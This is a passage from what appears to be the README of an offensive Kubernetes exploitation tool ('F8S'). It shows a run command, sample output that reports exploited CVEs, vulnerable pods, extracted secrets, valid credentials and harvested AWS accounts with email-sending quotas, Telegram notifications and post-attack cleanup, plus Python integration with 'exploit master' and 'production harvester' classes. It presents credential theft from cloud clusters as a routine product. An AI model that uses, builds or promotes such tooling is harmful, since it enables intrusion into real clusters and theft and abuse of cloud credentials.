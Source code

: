 ### Standalone Execution
```bash
python3 f8s_exploit_pod.py
```

## 📊 Output Structure

```json
{
  "session_id": "f8s_wKayaa_20250624_172421",
  "exploitation_summary": {
    "cves_exploited": ["CVE-2025-24884", "CVE-2025-24514"],
    "clusters_scanned": 15,
    "vulnerable_pods_found": 8,
    "secrets_extracted": 23,
    "valid_credentials": 6
  },
  "cloud_accounts": [
    {
      "type": "aws",
      "account_id": "123456789012", 
      "username": "ses-api-user",
      "permissions": ["s3:ListBucket", "ses:SendEmail"],
      "quotas": {"ses_daily_limit": 200, "s3_buckets": 12}
    }
  ],
  "telegram_notifications_sent": 3,
  "cleanup_status": "complete"
}
```

## 🔧 Integration with Existing Framework

F8S is designed to work seamlessly with existing K8s exploitation tools:

```python
# Compatible with existing classes
from k8s_exploit_master import K8sExploitMaster
from k8s_production_harvester import ProductionK8sHarvester
from f8s_exploit_pod import F8sPodExploiter

# Session tracking compatibility
exploiter = F8sPodExploiter()
print(exploiter.session_id)  # f8s_wKayaa_20250624_172421

# JSON output compatible with existing tools
results = await run_f8s_exploitation(targets)
# Can be passed to existing framework components
```

## 🎯 CVE-Specific Methods
